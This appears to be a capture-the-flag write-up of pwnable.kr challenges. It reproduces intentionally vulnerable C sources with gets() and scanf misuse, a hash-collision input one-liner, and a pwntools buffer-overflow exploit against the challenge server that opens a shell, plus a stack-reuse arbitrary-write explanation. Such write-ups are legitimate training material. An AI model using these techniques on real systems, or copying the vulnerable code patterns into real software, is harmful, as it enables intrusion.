 # pwn.kr

## 01 fd
fd == 0 -> stdin
	  1 -> stdout
	  2 -> stderror
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```
## 02 col
./col `python -c "print '\x01' * 16  + '\xE8' + '\x05' + '\xd9' + '\x1D' " `
hash collision, just find the hash value and fake an input to reach the value.

```c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}

int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}
```
## 03 bof
bof vulnerability with out limitation.
A backdoor, overwriting the local `key` valuable is all you need.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

here is the exp:
```py
#!/bin/python3

from pwn import *

# io = process('./bof')
io = remote('pwnable.kr', 9000)
# elf = ELF('./bof')

payload = b''
payload += p32(0xcafebabe) * 20

io.sendlineafter(b'me : ', payload)

io.interactive()
```

## 04 flag

reverse challenge..  a UPX packer related tool can solve this problem easily...
sry.. 

https://www.52pojie.cn/forum.php?mod=viewthread&tid=1148556

thx, my BROTHER lol

## 05 passcode

interesting challenge. 

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

observe the function `login()`, and during the initialization of passcode1/2, `scanf` is used not correctly, app takes the value of `passcode` as an address, and read a `%d` into this address.

then we find that the value of passcode can be controlled by STACK reuse mechanism.

Due to the function `welcode()` and `login()`'s sharing caller, they share the same stack's bottom, that is bp, which means the control of passcode1/2 can be done even before the calling of `login()`. 

In the function 'welcome()', we input a much-longer data stream than 'login()', which means the whole stack frame of 'login()' can be fully controlled by us. 

Setting the passcode1 to 0x1000 in `welcode()`, and inputting '0x2000' during `login()`, then (int)0x2000 will be writed into address 0x1000. that's an arbitrary write!

then, easy to hijack the control flow to the `system()` backdoor provided by this app.

